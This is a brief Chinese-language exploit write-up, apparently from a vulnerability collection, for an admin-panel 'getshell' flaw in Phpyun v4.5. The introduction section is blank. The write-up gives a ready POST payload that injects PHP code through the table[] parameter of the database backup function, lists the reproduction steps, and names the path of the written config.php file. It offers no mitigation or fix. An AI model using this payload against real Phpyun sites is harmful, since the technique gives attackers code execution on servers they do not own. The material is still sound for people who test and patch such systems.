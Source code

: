 # Phpyun v4.5 后台getshell

### 一、漏洞简介

### 二、漏洞影响

Phpyun v4.5

### 三、复现过程

payload：


```bash
Url： http://url/admin/index.php?m=database&c=backup  

Post： 
pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111
```

漏洞复现过程： 首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![](images/15893365748715.png)


抓包，修改table[] 参数-》发送

![](images/15893365817382.png)


![](images/15893365857997.png)


产生的文件就在uploads/data/plus/bdata/phpyun_20200312153927/config.php

Url：访问（这里搭建的时候环境，我默认指向了uploads）

![](images/15893365949820.png)

